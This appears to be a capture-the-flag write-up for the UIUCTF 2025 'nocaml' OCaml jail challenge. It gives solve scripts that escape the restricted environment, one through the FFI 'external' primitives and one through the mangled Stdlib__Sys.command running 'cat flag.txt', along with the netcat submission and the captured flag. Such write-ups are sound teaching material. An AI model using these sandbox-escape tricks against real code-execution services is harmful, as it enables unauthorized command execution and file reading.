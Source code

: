 ```yaml
---
title: UIUCTF 25 - nocaml
date: '2025-07-28T11:21:17+02:00'
math: false
categories:
- writeup
- uiuctf25
tags:
- misc
- ocaml
authors:
- nect
---
```


This is essentially an OCaml jail.

## Overview

The challenge runs user provided OCaml source code (encoded in base64).
The compiler is invoked with the flag `-open Nocaml`, that automatically imports
all the content of the module Nocaml into the scope of our code.

```sh
#excerpt from go.sh...
read -r line && echo "$line" | base64 -d > "$tmp_dir/code.ml"
ocamlc -o "$tmp_dir/out" -open Nocaml "$tmp_dir/code.ml" && "$tmp_dir/out"
```

In `nocaml.ml` we can see that all the values of the standard
library are rebound to the unit type (`()`).
Once those identifiers are shadowed we have no way to reach them.

```ocaml
let raise = ()
let raise_notrace = ()
let invalid_arg = ()
let failwith = ()
let ( = ) = ()
let ( <> ) = ()
let ( < ) = ()
let ( > ) = ()
let ( <= ) = ()
let ( >= ) = ()
let compare = ()
let min = ()
let max = ()
let ( == ) = ()
let ( != ) = ()
let not = ()
let ( && ) = ()
let ( || ) = ()
let __LOC__ = ()
let __FILE__ = ()
let __LINE__ = ()
let __MODULE__ = ()
(* and so on ... *)
module Stdlib = struct end
module String = struct end
module StringLabels = struct end
module Sys = struct end
module Type = struct end
(* and so on ... *)
```

As usual, the objective is reading the file `flag.txt`.

## Exploitation

The first thing that came to mind was using `Pervasives` (the old name of the `Stdlib` module).
Unfortunately newer versions of OCaml removed this alias.

At this point I went for the foreign function interface.
With the use of the `external` keyword, it's possible to declare
and invoke functions from the C ABI.

We don't have a way to create new foreign functions, but we don't really need to!
The `Stdlib` is always compiled and linked, even if we can't access it from the code.
This means that plenty of internal functions can be brought back with the FFI.

By diving into the [standard library code](https://github.com/ocaml/ocaml/tree/trunk/stdlib)
I found some useful primitives for IO.
The script I used to get the flag is the following:

```ocaml
(* directly from Stdlib *)
type open_flag =
    Open_rdonly | Open_wronly | Open_append
  | Open_creat | Open_trunc | Open_excl
  | Open_binary | Open_text | Open_nonblock

external open_desc : string -> open_flag list -> int -> int = "caml_sys_open";;
external set_in_channel_name : in_channel -> string -> unit = "caml_ml_set_channel_name";;
external open_descriptor_out : int -> out_channel = "caml_ml_open_descriptor_out"
external open_descriptor_in : int -> in_channel = "caml_ml_open_descriptor_in"
external output_char : out_channel -> char -> unit = "caml_ml_output_char";;
external input_char : in_channel -> char = "caml_ml_input_char";;

let open_in name =
  let c = open_descriptor_in (open_desc name [Open_rdonly; Open_text] 0) in
  set_in_channel_name c name;
  c
;;

let stdout = open_descriptor_out 1;;
let flag = open_in "flag.txt";;

let rec f () =
    output_char stdout (input_char flag);
    f ()
;;

f()
```

After this solve I also found a much shorter one (possibly unintended).
To prevent module collisions the compiler mangles module names (`Parent.Child` becomes `Parent__Child`).
The Stdlib is [not an exception][dune] to this, and `Nocaml` does not block those internal names.
So we can simply do:

```ocaml
Stdlib__Sys.command "cat flag.txt"
```

In both cases

```sh
$ (base64 -w0 solve.ml; echo) | ncat --no-shutdown --ssl nocaml.chal.uiuc.tf 1337
== proof-of-work: disabled ==
uiuctf{nocaml_79976241e31bee31e37c42885}
```

To conclude, I liked this challenge quite a bit.
Coming into this with OCaml experience, the solutions felt natural and intuitive.

[dune]: https://github.com/ocaml/ocaml/blob/9d44d724ad63ea76e22f5ac4740d7d0a66ec92bd/toplevel/dune#L92
